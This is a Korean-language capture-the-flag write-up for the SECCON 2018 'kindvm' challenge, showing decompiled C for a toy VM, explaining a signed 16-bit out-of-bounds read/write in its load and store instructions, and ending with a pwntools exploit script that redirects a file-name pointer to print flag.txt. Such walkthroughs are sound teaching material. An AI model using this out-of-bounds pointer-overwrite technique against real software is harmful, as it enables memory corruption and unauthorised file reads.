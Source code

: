 ```yaml
---
title: "2018 SECCON CTF kindvm"
date: 2020-7-12
ctf: SECCON CTF
layout: post
published : false
---
```


구조체는 이런식으로 만들었다.

```c
struct __attribute__((aligned(4))) vm
{
  int COUNT;
  int chk;
  char *name;
  char *banner;
  ssize_t (__cdecl *greeting)();
  ssize_t (__cdecl *farewell)();
};
```

ctf_setup() 함수는 그냥 버퍼 초기화해주고 alarm signal 5초 걸어놓는다.

kindvm_setup() 함수가 중요한 부분인데 vm 세팅해준다.

Input_insn() 함수는 명령어 인풋 받는 곳이다. insn이라는 포인터 전역변수에 저장해서 heap에 저장한다.

kc->greeting() 함수는 kc->banner를 열고 읽고 출력해준다.

kc->chk 즉 kindvm_setup에서 \x06을 셋팅하기 전까지 무한루프 돌아준다.

exec_insn() 함수는 1byte를 입력받아 명령어를 실행시켜줍니다.

Kc->farewell() 함수는 kc->greeting 함수포인터와 마찬가지로 kc->banner에 저장된 문자열을 파일을 열고 읽고 출력해준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ctf_setup();
  kindvm_setup();
  input_insn();
  kc->greeting();
  while ( !kc->chk )
    exec_insn();
  kc->farewell();
  return 0;
}
```

주석으로 기능들은 설명해놨다.

```c
void *kindvm_setup()
{
  struct vm *v0; // eax
  struct vm *v1; // ebx
  void *result; // eax

  v0 = malloc(24u);
  kc = v0;
  v0->COUNT = 0;
  kc->chk = 0;
  v1 = kc;
  v1->name = input_username();
  kc->banner = "banner.txt";
  kc->greeting = func_greeting;
  kc->farewell = func_farewell;
  mem = malloc(0x400u);
  memset(mem, 0, 0x400u);
  reg = malloc(0x20u);
  memset(reg, 0, 0x20u);
  insn = malloc(0x400u);
  result = memset(mem, 'A', 0x400u);            // mem filled "A"
  nop[0] = insn_nop;                            // \x00 NOP
  load = insn_load;                             // \x01 [reg idx(1byte)] [mem idx(2byte)] mem->reg
  store = insn_store;                           // \x02 [mem idx(2byte)] [reg idx(1byte)] reg->mem
  mov = insn_mov;                               // \x03 [reg idx(1byte)] [reg idx(1byte)] reg<-reg 
  add = insn_add;                               // \x04 [reg idx(1byte)] [reg idx(1byte)] reg<-reg
  sub = insn_sub;                               // \x05 [reg idx(1byte)] [reg idx(1byte)] reg<-reg
  halt = insn_halt;                             // exit
  in = insn_in;                                 // \x07 [reg idx(1byte)] data(4byte) reg<-data
  out = insn_out;                               // \x08 [reg idx(1byte)] print
  hint = insn_hint;                             // \x09
  return result;
}
```

insn_load(\x01 [reg idx(1byte)] [mem idx(2byte)]) 함수에서 OOB 취약점이 터진다. v3를 보면 memory의 인덱스를 참조해서 주소값을 reg idx에 맞게 값을 넣어주는데 __int16으로 저장되어있다.

```c
int insn_load()
{
  int *v0; // ebx
  int result; // eax
  unsigned __int8 v2; // [esp+Dh] [ebp-Bh]
  __int16 v3; // [esp+Eh] [ebp-Ah]

  v2 = load_insn_uint8_t();
  v3 = load_insn_uint16_t();
  if ( v2 > 7u )
    kindvm_abort();
  if ( v3 > 1020 )
    kindvm_abort();
  v0 = (reg + 4 * v2);
  result = load_mem_uint32_t(v3);
  *v0 = result;
  return result;
}
```

insn_store() 함수에서도 마찬가지로 __int16 v2때문에 OOB가 터진다. heap의 원하는 주소에 mem에 reg값을 넣을 수 있다.

```c
_BYTE *insn_store()
{
  unsigned __int8 v1; // [esp+Dh] [ebp-Bh]
  __int16 v2; // [esp+Eh] [ebp-Ah]

  v2 = load_insn_uint16_t();
  v1 = load_insn_uint8_t();
  if ( v1 > 7u )
    kindvm_abort();
  if ( v2 > 1020 )
    kindvm_abort();
  return store_mem_uint32_t(v2, *(reg + v1));
}
```

익스 시나리오는 kindvm_setup() 함수에서 input_username()를 호출해준다. name에 `flag.txt` 를 적는다. 그리고 load로 OOB 취약점을 이용해서 name 영역을 참조할 수 있다. 이걸 reg[0]에 넣어준다. 무한루프가 끝나면 kc->farewell() 을 호출해주는데 이 함수에서 kc->banner에 저장된 문자열을 읽어서 출력해준다. 여기에 reg[0]를 넣는다면 kc->banner에는 &name이 저장되어 있을 것이다. \x06으로 무한루프를 끝내면 open_read_write(kc->banner)로 flag.txt를 읽을 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./kindvm')
p = process('./kindvm')
mem = 0x0804B0A0
kc = 0x0804B0E8
regs = 0x0804B0EC
insn = 0x0804B0F0

# pause()

p.sendlineafter(':','flag.txt')

pay = '\x01\x00\xff\xd8' # reg[0] = &name("flag.txt")
pay += '\x02\xff\xdc\x00' # kc->banner = reg[0]
pay += '\x06' # exit
# trigger open_read_write(kc->banner);

p.sendafter('Input instruction : ',pay)

p.interactive()
```


